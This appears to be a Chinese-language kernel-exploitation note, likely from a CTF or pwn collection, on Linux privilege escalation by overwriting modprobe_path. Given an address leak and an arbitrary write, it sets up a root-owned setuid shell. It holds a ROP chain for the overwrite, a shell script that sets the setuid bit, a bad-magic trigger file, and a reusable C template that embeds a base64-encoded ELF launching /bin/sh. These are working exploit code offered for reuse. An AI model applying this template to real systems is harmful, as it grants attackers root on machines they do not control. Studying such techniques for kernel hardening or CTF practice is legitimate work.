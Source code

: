 # modprobe_path提权

利用前提 : 泄露地址和任意地址写

## 原理

执行命令 `cat /proc/sys/kernel/modprobe` 可以得到 `/sbin/modprobe`

这个路径保存着加载模块时调用的用户空间程序的路径，当我们在内核空间中修改其值为我们指定的程序，在运行一个错误文件，内核将会以高权限执行这个文件

1. 修改`modprobe_path`的值为我们指定的文件`/tmp/x`
2. 设置`/tmp/x`文件内容为为另一个后门程序设置s权限
3. 运行后门程序即可

## 攻击

泄露`modprobe_path`的地址，其值是一个字符串

```sh
~ # cat /proc/kallsyms | grep modprobe_path
ffffffff82c91540 D modprobe_path
```

修改`modprobe_path`的值为`/tmp/x`

```asm
pop rax; ret
modprobe_path_addr
pop rdi; ret
0x782f706d742f(/tmp/x)
mov qword ptr [rax], rdi; ret

// 确保内核不会崩溃
pop rdi; ret;
0x7fffffff
msleep
```

设置`/tmp/x`文件的内容为

```sh
#!/bin/sh
chown 0:0 /tmp/sh
chmod u+s /tmp/sh
```

之后，如果内核运行一个错误的文件，就会以root权限运行`/tmp/x`

创建一个错误文件

```sh
echo -ne "\xff\xff\xff\xff" > /tmp/err
```

设置`/tmp/sh`文件为获取`root`的程序，详见`sh.fasm`或`sh.nasm`

运行`/tmp/err`, 内核会通过`modprobe_path`以root权限调用`/tmp/x`，`/tmp/x`会给`/tmp/sh`s权限，然后用户运行`/tmp/sh`即可获得`root`权限

## 快速模板

### C

```C
// 创建x文件，用于modprobe触发
char content[0x200] = {0};
sprintf(content,
        "#!/bin/sh\n"
        "echo 'f0VMRgIBAQMAAAAAAAAAAAIAPgABAAAAyBBAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAACAEAAAAAAAAEAAAAGAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAyAAAAAAAAADIAAAAAAAAAAAQAAAAAAAAAQAAAAUAAADIAAAAAAAAAMgQQAAAAAAAyBBAAAAAAAA4AAAAAAAAADgAAAAAAAAAABAAAAAAAAAvYmluL3NoALAAQAAAAAAAAAAAAAAAAABIMf9IMfa4agAAAA8FSDH/SDH2uHEAAAAPBUiNPcfv//9IjTXI7///SDHAsDsPBbg8AAAAMf8PBQ==' | base64 -d > %s\n"
        "chown 0:0 %s\n"
        "chmod u+s %s\n",
        "/tmp/x", "/tmp/x", "/tmp/x");

// 写入x文件
int fd = open("/tmp/x", O_WRONLY | O_CREAT | O_NOCTTY | O_NONBLOCK, 0755);
write(fd, content, strlen(content));
close(fd);

// 写入错误的执行文件
fd = open("/tmp/err", O_WRONLY | O_CREAT | O_NOCTTY | O_NONBLOCK, 0755);
write(fd, "\xff\xff\xff\xff", 4);
close(fd);

// 触发modprobe，修改x权限并写入x
system("/tmp/err");

// 获取root
system("/tmp/x");
```

### 使用demo模板

```C
kernel_modprobe_create_fake_modprobe("/tmp/x", "/tmp/err", true);
// system("/tmp/err");
// system("/tmp/x");
```
